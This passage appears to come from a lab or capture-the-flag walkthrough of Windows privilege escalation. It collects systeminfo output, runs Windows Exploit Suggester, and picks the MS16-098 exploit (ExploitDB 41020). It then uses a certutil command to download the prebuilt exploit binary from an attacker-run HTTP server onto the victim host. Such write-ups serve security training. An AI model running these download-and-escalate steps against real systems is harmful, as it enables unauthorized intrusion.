 ```bash
systeminfo > systeminfo.txt
```

Use **Windows Exploit Suggester (WES-NG):**

```bash
python3 wes.py systeminfo.txt
```

![](screenshots/systeminfo_exploits.png)

The screenshot below shows just a portion of the exploits identified for this Windows version.

One promising exploit is **MS16-098 (CVE-2016-0099)** → [ExploitDB 41020](https://www.exploit-db.com/exploits/41020).

Instead of compiling, download the prebuilt binary from [Offensive Security GitLab](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/41020.exe):

Transfer it to the victim with `certutil`:

```bash
certutil.exe -f -urlcache -split http://10.10.14.10:8000/privesc.exe privesc.exe
```

![](screenshots/exploit_uploaded.png)
